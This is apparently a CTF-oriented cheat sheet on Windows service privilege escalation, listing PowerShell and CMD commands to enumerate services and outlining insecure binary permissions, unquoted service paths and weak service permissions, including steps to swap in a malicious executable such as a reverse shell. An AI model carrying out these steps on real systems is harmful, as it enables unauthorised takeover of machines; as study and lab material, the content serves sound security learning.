<div class="row row-cols-md-2"><div>

Windows services are managed by the Service Control Manager (SCM). You can use scripts such as winPEAS or PowerUp to list Windows services.

* 🗺️ List services

```powershell
PS> Get-Service
CMD> powershell -c "Get-Service"
```

* 🔎 Get more info about a service

```java
PS> sc.exe qc xxx // add .exe!!!
CMD> sc qc xxx
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: xxx
  [...]
  BINARY_PATH_NAME   : C:\[...]\service.exe
  [...]
```

In CTF, you are usually able to start/stop the service manually

```powershell
PS> sc.exe stop xxx
# do your job
PS> sc.exe start xxx
```

</div><div>

* ➡️ Insecure permissions: the current user may be able to replace the service with a malicious executable (ex: revshell.exe)

```powershell
PS> icacls C:\[...]\service.exe
PS> move C:\[...]\service.exe C:\[...]\service.exe.old
PS> icacls C:\[...]\malicious.exe /grant Everyone:F
```

* ➡️ Unquoted Service Paths: if the service is using a PATH in which there are spaces, the service isn't quoted, and the hacker can create files, then the hacker may create an executable that is executed with the rest of the path in argument.

```powershell
PS> icacls $Env:appdata\Vulnerable Program\service.exe
PS> move C:\[...]\malicious.exe $Env:appdata\Vulnerable.exe
# the service will execute
# $Env:appdata\Vulnerable.exe Program\service.exe
```

* ➡️ Insecure Service Permissions: if we can edit the permissions of a service, for instance, to change the location of the binary. See [accesschk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk). If the user is granted `SERVICE_ALL_ACCESS` on the service, then have fun. 
